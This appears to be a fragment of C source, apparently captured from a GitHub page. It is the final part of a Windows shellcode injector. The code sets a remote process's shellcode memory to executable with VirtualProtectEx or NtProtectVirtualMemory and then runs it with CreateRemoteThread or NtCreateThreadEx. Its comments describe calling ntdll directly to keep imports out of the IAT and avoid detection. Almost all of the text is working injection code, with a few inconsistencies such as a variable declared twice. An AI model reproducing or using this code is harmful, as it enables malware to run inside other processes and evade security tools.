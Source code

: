 ```c
    // Switch the protection of the shellcode's memory section to PAGE_EXECUTE_READ to execute the shellcode.
    DWORD OldProtectt = 0;

    /* Standard API. */
    BOOL virtualProctectExStatus = VirtualProtectEx(hProc, shellcodeBaseAddress, sizeof(shellcode), PAGE_EXECUTE_READ, &OldProtectt);
    #ifdef _DEBUG
    if (!virtualProctectExStatus) {
        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtectEx failed: %x\n", GetLastError());
        return 1;
    }
    #endif

    /* ntdll direct call (to avoid an import in the IAT). */
    pNtProtectVirtualMemory NtProtectVirtualMemoryFunc = (pNtProtectVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll"), "NtProtectVirtualMemory");
    NTSTATUS virtualProctectExStatus = NtProtectVirtualMemoryFunc(hProc, &shellcodeBaseAddress, &szAllocated, PAGE_EXECUTE_READ, &OldProtectt);
    #ifdef _DEBUG
    if (virtualProctectExStatus != 0) {
        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtectEx failed: %x\n", GetLastError());
        return 1;
    }
    #endif

    // Execute the shellcode by creating a new thread in the current process.
    SECURITY_ATTRIBUTES lpThreadAttributes = { 0 };
    HANDLE hThread = NULL;

    /* Standard API. */
    hThread = CreateRemoteThread(hProc, &lpThreadAttributes, 0, (LPTHREAD_START_ROUTINE)shellcodeBaseAddress, NULL, 0, NULL);

    /* ntdll direct call (to avoid an import in the IAT). */
    pNtCreateThreadEx NtCreateThreadExFunc = (pNtCreateThreadEx)GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateThreadEx");
    hThread = NtCreateThreadExFunc(&hThread, GENERIC_EXECUTE, NULL, hProc, shellcodeBaseAddress, NULL, FALSE, NULL, NULL, NULL, NULL);

    #ifdef _DEBUG
    if (!hThread) {
        printf("Thread execution using CreateRemoteThread failed: %x\n", GetLastError());
        return 1;
    }
    #endif

    CloseHandle(hThread);
    CloseHandle(hProc);

    return 0;
}
```
